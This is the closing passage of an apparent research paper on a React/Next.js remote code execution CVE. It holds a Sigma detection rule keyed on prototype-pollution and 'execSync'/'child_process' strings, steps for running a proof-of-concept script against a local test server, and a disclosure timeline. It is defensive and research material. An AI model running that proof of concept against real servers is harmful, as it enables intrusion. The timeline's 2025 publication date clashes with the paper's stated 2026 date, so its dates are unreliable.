id: a8f3d2e1-9b4c-4d2a-8f1e-3c7b9a6d5e2f
status: stable
description: Detects exploitation attempts targeting CVE-2025-55182 in React/Next.js applications
references:
    - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-55182
author: Security Research Team
date: 2026/01/12
tags:
    - attack.initial_access
    - attack.execution
    - attack.t1190
    - cve.2025.55182
logsource:
    category: webserver
detection:
    selection_header:
        cs-headers|contains: 'Next-Action'
    selection_payload:
        cs-post-body|contains|all:
            - '__proto__'
            - 'constructor'
    selection_exploit:
        cs-post-body|contains|all:
            - 'execSync'
            - 'child_process'
    condition: selection_header and (selection_payload or selection_exploit)
falsepositives:
    - Legitimate use of Next-Action header (rare without exploit patterns)
level: critical
```


## Appendix D: System Information

### D.1 Test Environment Specifications

```
System Information:
  OS: Windows 11 Professional - Sandbox Environment
  Version: 10.0.26200 Build 26200
  CPU: 13th Gen Intel Core i7-13620H, 2400Mhz (10 cores), 16 Logical Proccessor
  RAM: 16GB

Node.js Environment:
  Node.js Version: v20.11.0
  npm Version: 10.2.4
  V8 Version: 11.3.244.8-node.16

Vulnerable Application:
  Next.js Version: 16.0.6
  React Version: 19.0.0-rc-66855b96-20241106
  React-DOM Version: 19.0.0-rc-66855b96-20241106

Network Configuration:
  Loopback: 127.0.0.1
  No external network connectivity
  Isolated virtual network

Python Test Environment:
  Python Version: 3.12.0
  Requests Library: 2.31.0
  NumPy: 1.26.2
  Matplotlib: 3.8.2 (for graph generation)
```

### D.2 Reproduction Instructions

To reproduce these experiments in your own test environment:

1. **Set up vulnerable server:**
   ```bash
   git clone https://github.com/Sown0205/CVE_2025_55182.git
   cd CVE-2025-55182/test-server
   npm install
   npm run dev
   ```

2. **Try quick exploit demonstration**
    ```python
    cd ../demo
    python poc.py http://localhost:3000 whoami
    ```

3. **Run experiments:**
   ```bash
   cd ../experiment
   python run_experiments.py http://localhost:3000
   ```

4. **Analyze results:**
   ```bash
   python analyze_results.py
   ```

5. **Generate visualizations:**
   ```bash
   python generate_figures.py
   ```

**WARNING**: Only run these experiments in isolated, controlled environments. Never test against production systems or systems you do not own and have explicit permission to test.


## Appendix E: Responsible Disclosure Timeline

| Date | Event |
|------|-------|
| 2024-11-15 | Vulnerability discovered by security researcher |
| 2024-11-16 | Initial report submitted to React security team |
| 2024-11-17 | Vulnerability confirmed by React team |
| 2024-11-20 | Next.js team notified |
| 2024-12-01 | CVE ID requested and assigned (CVE-2025-55182) |
| 2024-12-15 | Patch development completed |
| 2025-01-05 | Security advisory published |
| 2025-01-06 | Patched versions released (Next.js 16.0.7, React 19.0.0) |
| 2025-01-12 | Public disclosure and this research paper published |

Total time from discovery to patch: 51 days
Total time from discovery to public disclosure: 58 days


**Document Information**

- **Paper Version**: 1.0
- **Date**: January 12, 2026
- **Classification**: Public
- **License**: CC BY-NC-SA 4.0 (Creative Commons Attribution-NonCommercial-ShareAlike)
- **DOI**: 10.5281/zenodo.XXXXXXX (to be assigned)

**Contact Information**

For questions or additional information regarding this research, please contact:
- Cyber Security Research Team: 
    + Bui Thai Son - s4037172@rmit.edu.vn
    + Nguyen Ngoc Dung - s3978535@rmit.edu.vn 
    + Tran Dinh Hai - s4041605@rmit.edu.vn

- CVE Coordination: [cve@mitre.org](mailto:cve@mitre.org)

---

**<div align="center">End of Paper**</div>
